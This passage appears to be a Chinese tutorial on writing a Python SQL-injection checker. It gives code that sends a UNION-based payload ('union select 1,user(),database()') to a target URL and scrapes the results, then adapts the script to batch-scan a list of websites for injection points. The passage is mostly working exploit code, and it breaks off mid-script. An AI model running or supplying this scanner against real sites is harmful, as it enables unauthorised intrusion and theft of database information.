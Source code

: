 ```python
			'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
			'Accept-Encoding': 'gzip, deflate'

		}

		r = requests.get(url+payloads,headers=headers)

		result = re.findall('<font.*?>(.*?)</font>',r.text)

		print(result)

	except:
		print('网站无法访问')
		exit()

if __name__ == '__main__':
	sql()
```

使用 **def** 定义一个 **sql()** 函数，把代码封装起来，<br>

最后使用 `__name__ == '__main__'`  让这个函数自动调用，<br>

当脚本运行的时候就会自动调用这个sql()函数 <br>

不要问为什么，这是固定搭配，这样写就完事了。 <br>

-----

接下来就是批量了，<br>

假设有一批网站需要检测有没有注入点，<br>

那么我们可以设置一个字典，<br>

这个字典可以是外部的，也可以是内部的，<br>

然后从这个字典里面一条一条去读取出来，然后拿去检测，<br>

然后代码是这样子的，稍微做了点小小的改动。 <br>

```python
import requests
import re

global num

num = 0

def sql(url,num):

	try:

		# url = "http://www.sql.com/Less-1/?id=-1\'";

		payloads = "?id=-1' union select 1,user(),database() --+"

		headers = {
			'Host': 'www.sql.com',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
			'Accept-Encoding': 'gzip, deflate'

		}

		r = requests.get(url+payloads,headers=headers)
```